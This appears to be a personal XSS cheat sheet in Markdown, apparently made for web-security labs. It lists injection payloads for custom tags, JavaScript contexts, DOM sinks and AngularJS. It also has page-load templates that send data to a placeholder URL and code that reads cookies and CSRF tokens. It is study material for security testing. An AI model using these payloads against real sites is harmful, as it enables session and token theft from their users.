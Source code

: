 # [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Custom Tags
Sometimes we can inject custom tags into the page.
Ex: `<custom-tag onmouseover='alert("xss")'>`
**Note: In this case not closing the custom tag with `</custom-tag>` succeeds, but if we close the tag
it fails.**

## Interesting Payloads
### Arithmetic Operators To Execute JS Functions
**Payload:** `http://'-alert(1)-'`
**Final Result:** `<a id="author" href="http://'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http://'-alert(1)-'');">name</a>`
**Explanation:**
Sometimes adding arithmetic operators around JS functions might execute the function.
JS evaluates the payload above like so: `('http://' - alert(1)) - ''`, `('http://' - alert(1))` evaluates to `NaN`, then `NaN - ''` evaluatesto `NaN` too, but since the `alert()` function was evaluated in the first expression, it is executed. This technique only works in the a context where JS code can be executed (not in HTML).

## XSS To Exfiltrate Data
Remember that these are XSS payloads and should be executed within `<script></script>` tags.
### Using `XMLHttpRequest()`
```javascript
// Only add event listener if the payload should be executed on page load
window.addEventListener("load", function() {
	var xhr = new XMLHttpRequest();
	xhr.open("<http-method>", "<target-url>");
	var data = "<data-to-send>"
	xhr.send(data)
});
```
### Using `fetch()`
```javascript
// Only add event listener if the payload should be executed on page load
window.addEventListener("load", function() {
	var data = new FormData();
	data.append("key", "value");

	fetch("<target-url>", {
		method: '<http-method>',
		mode: 'no-cors',
		body: data
	});
});
```

## DOM Based XSS
This is also known as client-side XSS as the process is entirely done on the client-side and the XSS payload never reaches the server.
We can know if we are facing DOM based XSS if the payload does not appear in the 'View page source' page but does appear in the 'Inspector' tab of the developer options.
### Functions (Sinks) That Could Cause DOM XSS
You can perform a quick search (Ctrl+F) for the following functions in the client-side code
- `document.write()`
- `innerHTML()` (does not allow the use of `<script>` tags within it, try other payloads (e.g., `<img src=x onerror=alert(1)>`))
- `outerHTML()`
#### Ajax Specific Functions
- `add()`
- `after()`
- `append()`

### Reflected XSS In Template Literals
When an input is reflected on the page and within the page's source code it is inside a JS template literal (string within \`\`) we can execute JS functions with payloads like the following `${alert()}`.

## XSS in AngularJS
### Checking If XSS is Possible
	{{ 1 + 1 }} (Should return 2)

### ng-app Directive
	{{ $on.constructor('alert(1)') () }}
	{{ $eval.constructor('alert(1)') () }}

## READ JS FILES IF POSSIBLE / RELEVANT
### Where Is The Content Being Rendered?
JavaScript files might be relevant if some content on the page is only rendered by executing JavaScript code.
One way to know is to view the page's source code on the browser and check whether some content that is rendered on the screen
is missing from the source code. If that is the case, then that content might be rendered by JavaScript and therefore reading JS files
could be relevant to finding an XSS attack.

### The Replace Function
When the `replace()` function is given a string as its first argument it only replaces the first occurence of that string.
Ex:
```javascript
myString = '<h1>hello</h1>'
myString.replace('<', '&lt;').replace('>', '&gt;') // myString = '&lt;hello&gt;'

myString = '<><h1>hello</h1>'
myString.replace('<', '&lt;').replace('>', '&gt;') // myString = '&lt;&gt;<h1>hello</h1>'
```
## Accessing Values With JavaScript
### Accessing Cookie Values
```javascript
var csrf = document.cookie // In case of one cookie only
var cookieArray = document.cookie.split("; ") // Gives an array of key=value pairs we can split each on the = sign
var csrfCookieArray = cookieArray[0].split('=') // Gives an array csrf = ["key", "value"]
var csrfValue = csrfCookieArray[1] // Gives the value of the CSRF token
```
### Accessing HTML Element Attribute Values
```javascript
// Get the value of the first element with name=csrf
var csrf = document.getElementsByName('csrf')[0].value // Notice the plural Elements with an s.

// Get the value of the element with id=csrf
var csrf = document.getElementById('csrf').value // Notice the singular Element without an s.
```

## Extra Tips
XSS Payloads can sometimes be executed in HTTP request headers such as `Cookie` or `User-Agent` headers.


## Extra Resources
**Note: Many of these payloads will not work because they are made for specific scenarios but they could be used as a last resort.**
- [PayloadBox XSS](https://github.com/payloadbox/xss-payload-list)
- [PayloadAllTheThings XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
